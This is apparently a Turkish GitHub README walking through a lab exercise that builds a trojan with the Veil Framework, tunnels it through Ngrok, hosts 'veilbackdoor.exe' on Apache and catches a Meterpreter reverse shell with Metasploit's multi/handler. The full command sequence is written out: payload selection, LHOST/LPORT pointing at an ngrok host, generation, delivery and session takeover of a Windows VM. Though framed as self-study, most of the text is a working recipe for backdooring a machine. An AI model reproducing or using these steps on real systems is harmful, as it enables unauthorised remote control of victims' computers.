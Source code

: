 # Veil-Ngrok-Calistirma
Veil Framework ile Ngrok Çalıştırarak Trojen Oluşturup Çalıştırmak


Veil Framework Yükleme Referansı: https://github.com/Veil-Framework/Veil


- [Ngrok.com](https://ngrok.com/) adresine giderek üye oldum.
- Site üzerinden “Download for Linux” diyerek sanal Kali makinama ngrok’u indirdim
- 2. Kısımda yazan authentication token’ımı kayderek siteden çıkış yapıyorum.
![ngrok site](https://user-images.githubusercontent.com/67163428/191236942-63485be5-51da-4a83-bdb2-b8a87b25e0c2.png)

- Download klasörü içinde indirdiğim Zip dosyası içinden Ngrok’u çıkardım
- ![ngrok zip çıkarılış](https://user-images.githubusercontent.com/67163428/191237212-ef13070b-bab6-49c3-ac54-4f09fbcaee61.png)

- Terminal ekranını açarak Download klasörünün içine gidiyorum, ls diyerek dosyaları kontrol ediyorum ve “ngrok” dosyasını görüyorum.
- Kaydetmiş olduğum authentication tokenı ./ngrok yaparak yapıştırıp tokenın dosyaya yazılmasını sağlıyorum.
![ngrok token kaydetme](https://user-images.githubusercontent.com/67163428/191237348-f267496a-8a87-4d60-933c-bf556e30e2f4.png)

-./ngrok tcp diyerek tcp 4848 servisini çalıştırıp kullanılmayan bir port ekliyorum.
![ngrok çalıştırma](https://user-images.githubusercontent.com/67163428/191237409-7ee692ce-69ab-41a0-ad84-5e4545198730.png)

- Ngrok çalışmaya başladıktan sonra gelen ekran üzerinde tcp://0.tcp.eu.ngrok.io’a ya 11810 portundan gelen verileri benim makinamın 4848 portuna aktaracağını anlıyoruz.
![ngrok çalışması ](https://user-images.githubusercontent.com/67163428/191237456-aae6c597-4ee8-4485-b5ee-0a6034f5b3f5.png)

- Trojen yaratmak için Veil kullanıyorum.
- Veil dosyasının kurulu olduğu yere giderek, Veil.py dosyasını çalıştırmak için “python3 Veil.py” yazıyorum.
![veil çalıştırma](https://user-images.githubusercontent.com/67163428/191237534-4918ef2e-2da1-4b1e-9fa7-7146eb6a5094.png)

- Çıkan ekranda 2 araç kullanılabilir olduğunu görüyorum ve 1. Aracı kullanıyorum
- ![veil iç 1](https://user-images.githubusercontent.com/67163428/191237598-cb81a1b3-0737-4200-8a10-40b79f3faec8.png)

- “list” diyerek payload listelerini görüyorum.
 ![veil iç 2](https://user-images.githubusercontent.com/67163428/191237642-27d90eda-9e55-4c8c-97bc-3dd5bb2aaf65.png)
 ![veil iç 3](https://user-images.githubusercontent.com/67163428/191237676-251896cd-351d-45bd-ae81-c30235050540.png)

- “use 7” diyerek 7. payloadı seçerek devam ediyorum.
![veil iç 4](https://user-images.githubusercontent.com/67163428/191237688-1102d3b4-fceb-4026-9007-84defebcbfba.png)

-“set LHOST 0.tcp.ngrok.io” yazıyorum. Ngrok üzerinden bize verilen adresi girdim.
- Port olarakta “set LPORT 11810” giriyorum
![veil iç 5](https://user-images.githubusercontent.com/67163428/191237931-9790d9fe-b387-4bc5-b377-15838e8aee39.png)

-“generate” diyerek benim için oluşturmasını istiyorum daha sonra bir isim vererek dosyanın nerede oluştuğunu görebiliyorum.
![veil iç 6](https://user-images.githubusercontent.com/67163428/191237959-0fad0315-d39f-418e-a973-37d49feee0ff.png)

- “/var/lib/veil/output/compiled/veilbackdoor.exe” içerisinde olan dosyamı keserek 
 /var/www/html/backdoors/” klasörünün içine aktarıyorum. (backdoors klasörünü isteğe bağlı oluşturabilirsiniz)



- Apache servisimi çalıştırıyorum.
- Dinlemeyi yapmak için msfconsole içine giriyorum.
![apache ve msfconsole çalıştırma](https://user-images.githubusercontent.com/67163428/191238053-41d8cdc6-b95a-43cb-b25f-8a5b5a4621c4.png)

- “ use exploit/multi/handler” 
“ set payload windows/meterpreter/reverse_tcp” komutlarını giriyorum
![msfconsole iç 1](https://user-images.githubusercontent.com/67163428/191238141-a1f4c3d7-8a82-4bfc-af9c-4a6327dd1986.png)

- “show opitons” içine girerek LHOST VE LPORTA BAKIYORUM.
“set LHOST 0.0.0.0” VE “set LPORT 4848” yazarak düzenleme yapıyorum.
- “exploit -j -z” diyerek dinlemeyi başlatmış oluyorum.
![msfconsole iç 2](https://user-images.githubusercontent.com/67163428/191238171-8f9fe884-0a44-4b34-8abb-5c1f11d337e0.png)



- Oluşturduğum sanal windows makinasını çalıştırıyorum.
- Tarayıcıyı açarak “10.0.2.15/backdors” adresine giderek veilbackdoor.exe dosyasını indiriyorum.
 ![windows indirme](https://user-images.githubusercontent.com/67163428/191238393-81524185-c4fd-44db-bd01-b06b3d3ab8ca.png)

- exe dosyasını açtıktan sonra kali makinamızın terminaline bir sessions düşüyor.
-  ![msfconsole 3](https://user-images.githubusercontent.com/67163428/191238361-c3a3f034-6061-45d7-af9d-f2c47448c033.png)

- “sessions -l” yaparak tüm sessionsları görüyoruz ve bize gerekli olan “sessions -1” diyerek windows makinamızın içine giriyoruz. 
- “sysinfo” yapara makinamızın ele geçirildiğini kanıtlamış oluyoruz.
 ![msfconsole 4](https://user-images.githubusercontent.com/67163428/191238381-4063fce5-c328-4225-99d7-e330c2c7c02b.png)




